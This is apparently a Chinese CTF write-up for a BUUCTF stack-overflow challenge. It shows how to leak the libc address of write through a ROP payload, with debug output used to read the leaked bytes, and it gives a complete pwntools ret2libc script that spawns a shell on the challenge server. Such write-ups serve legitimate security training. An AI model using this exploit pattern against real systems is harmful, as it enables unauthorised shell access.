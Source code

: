 ### Debug 泄露数据传输过程

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d92f9a88c538a9b5c0364c.png)

直接看 main 函数

![](https://pic1.imgdb.cn/item/67d930a588c538a9b5c036b1.png)

再看 vuln 函数存在栈溢出漏洞

![](https://pic1.imgdb.cn/item/67d930b788c538a9b5c036b4.png)

没有可利用的后门及字符串，泄露 libc

```python
payload = b'a' * (0x6c + 4) + p32(write_plt) + p32(vuln_addr) + p32(1) + p32(write_got) + p32(4)
```

write 函数泄露的地址常规方法都是 `u32(r.recv(4))` 接收

但是这里接收不到，我们需要开启 debug 查看数据传输过程

```python
context.log_level = 'debug'
```

可以看到 0x070 这一行最后四个字节就是泄露出来的 write 函数的地址

![](https://pic1.imgdb.cn/item/67d931b788c538a9b5c036d7.png)

```python
# \xf7：0xf7
# [-4:]：最后4个字节
write_addr = u32(r.recvuntil('\xf7')[-4:])
```

```python
from pwn import *
from LibcSearcher import *

r = remote('node5.buuoj.cn',29336)

context.log_level = 'debug'
elf = ELF('./bof')
write_plt = elf.plt['write']
write_got = elf.got['write']
vuln_addr = 0x80484D6

payload = b'a' * (0x6c + 4) + p32(write_plt) + p32(vuln_addr) + p32(1) + p32(write_got) + p32(4)

r.sendline(payload)

write_addr = u32(r.recvuntil('\xf7')[-4:])

libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
system = libc_base + libc.dump('system')
binsh = libc_base + libc.dump('str_bin_sh')

payload = b'a' * (0x6c + 4) + p32(system) + p32(vuln_addr) + p32(binsh)

r.sendline(payload)
r.interactive()
```
